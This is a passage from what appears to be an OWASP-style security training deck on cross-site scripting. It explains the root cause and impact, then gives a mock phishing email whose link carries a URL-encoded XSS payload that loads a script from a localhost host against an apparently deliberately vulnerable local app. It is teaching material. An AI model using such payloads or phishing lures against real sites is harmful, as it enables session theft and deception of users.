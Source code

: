 * An attacker can use XSS to send a malicious script to an unsuspecting
  user
* The end user’s browser has no way to know that the script should not
  be trusted, and will execute the script
* Because it thinks the script came from a trusted source, the malicious
  script can access any cookies, session tokens, or other sensitive
  information retained by the browser and used with that site
* These scripts can even rewrite the content of the HTML page

---

# ⚠️ Root Cause

Web applications vulnerable to XSS...

1. ...include untrusted data (usually from an HTTP request) into dynamic
   content...
2. ...that is then sent to a web user _without previously validating for
   malicious content_

_:information_source: XSS originally had its own category, e.g. [A7:2017-Cross-Site Scripting (XSS)](https://owasp.org/www-project-top-ten/2017/A7_2017-Cross-Site_Scripting_(XSS).html). Since 2021 it is considered part of the [Injection](01-01-injection.md) category._


---

# ⚠️ Typical Impact

* Steal user's session
* Steal sensitive data
* Rewrite the web page
* Redirect user to malicious website


---

# ⚠️ Typical Phishing Email

<small>Dear valued employee!

You won our big lottery which you might not even have participated in!
Click on the following totall inconspicious link to claim your prize
**now**!

[CLICK HER! FREE STUFF! YOU WON!](http://localhost:3000/#/search?q=%3Cimg%20src%3D%22bha%22%20onError%3D%27javascript%3Aeval%28%60var%20js%3Ddocument.createElement%28%22script%22%29%3Bjs.type%3D%22text%2Fjavascript%22%3Bjs.src%3D%22http%3A%2F%2Flocalhost%3A8080%2Fshake.js%22%3Bdocument.body.appendChild%28js%29%3Bvar%20hash%3Dwindow.location.hash%3Bwindow.location.hash%3D%22%23%2Fsearch%3Fq%3Dowasp%22%3BsearchQuery.value%20%3D%20%22owasp%22%3B%60%29%27%3C%2Fimg%3Eowasp)

Sincereely yours,
